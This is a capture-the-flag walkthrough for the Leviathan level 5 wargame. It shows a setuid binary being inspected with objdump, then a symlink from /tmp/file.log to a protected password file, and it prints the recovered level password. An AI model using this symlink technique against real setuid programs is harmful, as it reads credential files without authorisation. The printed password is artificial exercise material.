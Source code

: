 From using ls -la, the executable to work with is `leviathan5`. When executing `leviathan5`, the output looks like this:

```
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Since we do not know what the executable is doing, we can use objdump to have some idea on what its doing on the stack:
```
leviathan5@gibson:~$ objdump -T leviathan5 

leviathan5:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.1)  fclose
00000000      DF *UND*  00000000 (GLIBC_2.0)  getuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  unlink
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  exit
00000000      DF *UND*  00000000 (GLIBC_2.0)  feof
00000000      DF *UND*  00000000 (GLIBC_2.1)  fopen
00000000      DF *UND*  00000000 (GLIBC_2.0)  putchar
00000000      DF *UND*  00000000 (GLIBC_2.0)  fgetc
00000000      DF *UND*  00000000 (GLIBC_2.0)  setuid
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```
Key findings from the output:

    - The program opens a file (`fopen`), reads from it (`fgetc`), outputs its content (`putchar`), and then deletes it (`unlink`).
    - It also retrieves the user's UID (`getuid`) and sets the UID (`setuid`).

Now, we have some basic idea on what the command is doing so we create a dummy folder we try the command again:

```
leviathan5@gibson:~$ echo nihao > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
nihao
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Pretty much what we had expected. So, we could try copying the password file into the tmp file and get the password there. 

Since copying the password file directly results in a permission denied error, we can attempt to create a symbolic link pointing to the password file:

```
leviathan5@gibson:~$ cp  /etc/leviathan_pass/leviathan6 /tmp/file.log
cp: cannot open '/etc/leviathan_pass/leviathan6' for reading: Permission denied
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```

Looks like symlink works and now we got our password!